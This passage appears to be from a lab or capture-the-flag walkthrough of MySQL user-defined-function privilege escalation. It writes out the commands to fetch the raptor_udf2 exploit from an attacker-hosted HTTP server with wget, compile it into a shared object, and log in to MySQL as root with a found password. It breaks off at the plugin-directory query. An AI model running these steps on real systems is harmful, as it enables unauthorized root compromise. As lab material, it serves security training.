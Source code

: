 ![](Images/Pasted%20image%2020221001100029.png)

- We enter the command "searchsploit -m linux/local/1518.c" to transfer the exploit onto our Kali machine.

- We set up a Python HTTP server on our Kali machine to host the "1518.c" file.

- We access the "/var/www" directory on the target machine since it had write permissions.

- We execute the command "wget [kali IP]:8295/1518.c" and successfully download the shared object file to the target machine.

- We enter the command "gcc -g -c 1518.c -o raptor_udf2.o -fPIC" followed by "gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc" to compile it into a shared object file.

 - Again we enter the command "MySQL –u root –p" and successfully log in to MySQL using the discovered password, "EscalateRaftHubris123".

![](Images/Pasted%20image%2020221001100055.png)

- We enter the command "show variables like '%plugin%';" to retrieve the current plugin directory in the database.
  
![](Images/Pasted%20image%2020221001100121.png)
